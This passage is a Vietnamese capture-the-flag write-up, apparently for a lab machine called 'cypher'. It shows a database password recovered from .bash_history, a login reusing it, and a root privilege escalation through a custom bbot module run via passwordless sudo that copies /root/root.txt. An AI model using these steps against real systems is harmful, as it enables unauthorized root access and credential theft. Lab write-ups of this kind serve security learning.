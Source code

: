 <img width="919" height="940" alt="image" src="https://github.com/user-attachments/assets/8a29ef18-aaf3-4a06-9dc0-b7d9a45416c8" />

Tôi `ls -la` thì ra như sau:
```
total 52
drwxr-xr-x 11 neo4j adm   4096 Feb 17  2025 .
drwxr-xr-x 50 root  root  4096 Feb 17  2025 ..
-rw-r--r--  1 neo4j neo4j   63 Oct  8  2024 .bash_history
drwxrwxr-x  3 neo4j adm   4096 Oct  8  2024 .cache
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 certificates
drwxr-xr-x  6 neo4j adm   4096 Oct  8  2024 data
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 import
drwxr-xr-x  2 neo4j adm   4096 Feb 17  2025 labs
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 licenses
-rw-r--r--  1 neo4j adm     52 Oct  2  2024 packaging_info
drwxr-xr-x  2 neo4j adm   4096 Feb 17  2025 plugins
drwxr-xr-x  2 neo4j adm   4096 Feb 17  2025 products
drwxr-xr-x  2 neo4j adm   4096 Sep 17 06:24 run
lrwxrwxrwx  1 neo4j adm      9 Oct  8  2024 .viminfo -> /dev/null
```
Tôi mở file `.bash_history` thì có mật khẩu là:
```
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```
Đăng nhập thử với user `graphasm` với mật khẩu là `cU4btyib.20xtCMCXkBmerhK` thì vào được:
```
graphasm@cypher:~$ cat user.txt  
b35304bdfb497923f9440a0fa4db51c8
```
Chạy `sudo -l` thì có bbot là có thể chạy dưới quyền root mà không cần mật khẩu:
```
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```
Có thể đọc thêm về [bbot](https://github.com/blacklanternsecurity/bbot/tree/stable/bbot/modules), tôi nhận thấy có các module và trong đó là các file python, ngoài ra có thể tự viết module, tham khảo tại [đây](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/)

Tôi tự viết thêm module để thực hiện đọc các file nhạy cảm trong `/root`

Tạo file `testModule.yml` và thư mục `testModule`, bên trong thư mục là file python `testModule.py` vói nội dung như dưới: 

```
graphasm@cypher:~$ cat testModule.yml 
modules:
- testModule
module_dirs:
- /home/graphasm/testModule
graphasm@cypher:~$ ls
bbot_preset.yml  bbot_scans  testModule  testModule.yml  user.txt
graphasm@cypher:~$ cat testModule/testModule.py 
from bbot.modules.base import BaseModule
import os
os.system("cat /root/root.txt > /home/graphasm/flag.txt")
def MyModule(BaseModule):
    watched_events = ["DNS_NAME"]
    async def handle_event(self, event):
        import os
        os.system("cat /root/root.txt > /home/graphasm/flag.txt")
```

